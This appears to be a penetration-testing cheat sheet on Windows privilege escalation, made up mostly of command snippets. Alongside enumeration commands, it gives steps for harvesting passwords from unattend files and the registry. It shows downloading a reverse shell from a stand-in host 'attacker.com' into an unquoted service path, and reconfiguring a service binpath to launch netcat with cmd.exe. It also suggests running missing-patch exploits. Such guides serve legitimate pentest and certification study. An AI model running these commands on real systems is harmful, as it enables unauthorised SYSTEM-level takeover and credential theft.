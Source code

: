 # Windows Privilege Escalation

Windows privilege escalation commands.

Other guides just in case:
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
* http://www.fuzzysecurity.com/tutorials/16.html
* https://github.com/xapax/security/blob/master/privilege_escalation_windows.md
* https://guif.re/windowseop?fbclid=IwAR0jmCV-uOLaUJCnKiGB2ZaDt9XZwlAGM3nTOH0GkS6c0hS63FFSGm97Tdc


### 1. SYSTEM INFORMATION + ACCOUNTS

```powershell
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

### 2. NETWORKING

```powershell
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano                # show current TCP/IP network connections
$ netsh firewall show state   # show firewall state
$ netsh firewall show config  # show firewall configuration
```

### 3. WINDOWS TASKS

TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.
```powershell
$ schtasks /query /fo LIST /v   # show scheduled tasks (verbose)

$ tasklist /SVC                 # show running processes / associated services

$ net start                     # start Windows services

$ driverquery                   # show 3rd-party drivers

$ net user %username%           # show info about user
```

### 4. QUICK WINS

Missing Windows patches:
1. `wmic qfe get Caption,Description,HotFixID,InstalledOn` (mostly not available to non-admins)
2. Find Windows privesc exploits.
3. Grep for their existence in the output of `wmic` (using KB numbers)
4. If any exploits are missing from the patchlist, use them and profit.

Hardcoded redentials in config files:
```powershell
# LEVEL 1
$ type C:\sysprep.inf
$ type C:\sysprep\sysprep.xml
$ type %WINDIR%\Panther\Unattend\Unattended.xml
$ type %WINDIR%\Panther\Unattended.xml

# LEVEL 2
$ dir /s *pass* == *cred* == *vnc* == *.config*

# LEVEL 3 (.xml .ini .txt)
$ findstr /si password *.xml *.ini *.txt

# LEVEL 4 (in registry)
$ reg query HKLM /f password /t REG_SZ /s
$ reg query HKCU /f password /t REG_SZ /s
```

"AlwaysInstallElevated": this setting allows users of any priv to install .msi files as SYSTEM.
```powershell
# Output of both commands need to = 1
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```


### 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

For restarting services or binaries, try various methods to restart:  
__TRY TO REBOOT THE SYSTEM ITSELF VIA. CMD IF SERVICE RESTARTS DONT TRIGGER YOUR PAYLOAD__
```powershell
$ net start
$ sc start
$ mysql> RESTART;    # using service commands itself to restart
```

Unquoted service paths:  
A service is vulnerable path to the executable has a space in the filename and the file name is not wrapped in quote marks; exploitation requires write permissions to the path before the quote mark.
```powershell
# SCENARIO 1
$ wmic service get name,pathname        # Find possible vulnerable services
SERVICENAME           PATH
. . .                 . . .
PFNet                 C:\Program Files\Privacyware\PrivFirewall 7.0\pfw.exe
. . .                 . . .
$ wmic service get pathname,startname   # Check if service runs with Admin privileges
$ icacls/cacls service                  # Check for write permissions to folder: look for BUILTIN\USERS (W)
$ wget http://attacker.com/rshell.exe -O C:\Program Files (x86)\Privacyware\PrivFirewall.exe   # Transfer rshell to path
$ net start service / reboot computer

# SCENARIO 2: Writable C:\
$ wget http://attacker.com/rshell.exe -O C:\Program.exe
```

Unquoted service path guides:
* https://pentestlab.blog/2017/03/09/unquoted-service-path/
* https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae
* https://trustfoundry.net/practical-guide-to-exploiting-the-unquoted-service-path-vulnerability-in-windows/

Windows weak service permissions:
```powershell
$ sc qc [servicename]               # query service

$ accesschk.exe /accepteula         # DO THIS FIRST
$ accesschk.exe -ucqv UPNPHOST      # check required priv for every service using accesschk.exe
$ accesschk.exe -uwcqv "Authenticated Users" * # find services which allow access for "Authenticated Users"
```

Reconfigure Windows services to escalate privileges:
```powershell
$ sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc config upnphost obj= ".\LocalSystem" password= ""
$ net start upnphost
```

File and folder permissions:
* Look for weak permissions such as "NT AUTHORITY\AUTHENTICATED USERS: I M"
* For binaries that load with SYSTEM privileges, replace with your own binary.
```powershell
$ icacls [file or folder path]
$ cacls [file or folder path]
$ accesschk.exe -dqv [file or folder path]
```

Find all weak folder permissions per drive:
```powershell
$ echo Finding all weak folder permissions per drive
$ accesschk.exe -uwdqs Users c:\ /accepteula
$ accesschk.exe -uwdqs "Authenticated Users" c:\
```

Find all weak file permissions per drive:
```powershell
$ accesschk.exe -uwqs Users c:\*.* /accepteula
$ accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

Check PATH system variable:
* All non-default directories in root `C:\` will give WRITE access to the Authenticated Users group!!!
* Look for non-default dirs in `%path%`
